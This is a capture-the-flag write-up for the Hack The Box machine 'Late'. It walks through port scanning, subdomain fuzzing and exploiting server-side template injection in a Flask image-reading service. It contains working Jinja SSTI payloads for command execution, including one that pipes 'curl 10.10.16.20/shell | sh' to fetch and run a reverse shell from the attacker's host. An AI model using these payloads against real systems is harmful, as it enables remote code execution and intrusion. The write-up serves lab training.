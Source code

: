 # Late 
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5f238aa8-4222-42c6-8b9f-a9a9ed488089)

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.11.156 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-16 00:03 PDT
Nmap scan report for late.htb (10.10.11.156)
Host is up (0.072s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 025e290ea3af4e729da4fe0dcb5d8307 (RSA)
|   256 41e1fe03a5c797c4d51677f3410ce9fb (ECDSA)
|_  256 28394698171e461a1ea1ab3b9a577048 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.66 seconds
```

1. Based from the nmap results, the machine runs a web application service and opens ssh login.

> WEB APP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9fb306c7-1739-4dc5-80cc-b8f9cbad4ac2)


2. Scrolling down, there's another link which redirects to another subdommain --> images.late.htb.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f2b77347-64f0-4ef0-8181-45eb4a5ddff1)


> images.late.htb

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/007a61cf-d04c-4d43-ab18-d7f339278b24)


> Running wfuzz to check another subdomain --> found only images.late.htb.

```
wfuzz -u "http://late.htb" -H "Host: FUZZ.late.htb" -w SecLists/Discovery/DNS/subdomains-top1million-5000.txt --hh 9461
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/cf0e6f3e-68b4-4bc7-9c3b-ee01891249e8)


3. Interesting, since it said that it built with Flask, hence it could related to SSTI vuln.
4. Let's check that by uploading a file which has regex operation such --> {{ 7*7 }}.
5. I used [this](https://smallseotools.com/text-to-image/) online tool to convert text to image with ease.
6. After uploaded the image, automatically we got this:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/517934d4-4034-4c13-b418-75f11326dab7)


```
┌──(brandy㉿bread-yolk)-[~/Downloads]
└─$ cat results.txt
<p>49
</p>
```

7. Great! This should be our foothold.
8. Let's try to run simple SSTI payload to check whether there is filter.

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bf026a13-e379-4b42-925b-5d8a5d5c5198)


9. To fix this I tried to change the font to monospace, background color to black, font color to white, and zoom level max.

```
┌──(brandy㉿bread-yolk)-[~/Downloads]
└─$ cat results.txt
<p>uid=1000(svc_acc) gid=1000(svc_acc) groups=1000(svc_acc)

</p>
```

10. Nice! Even the basic payload is executed, let's send our reverse shell payload.

> PAYLOAD

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b4ab6cd4-f645-47e8-8300-7775c36f35a9)


> What to send

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('curl 10.10.16.20/shell | sh').read() }}
```




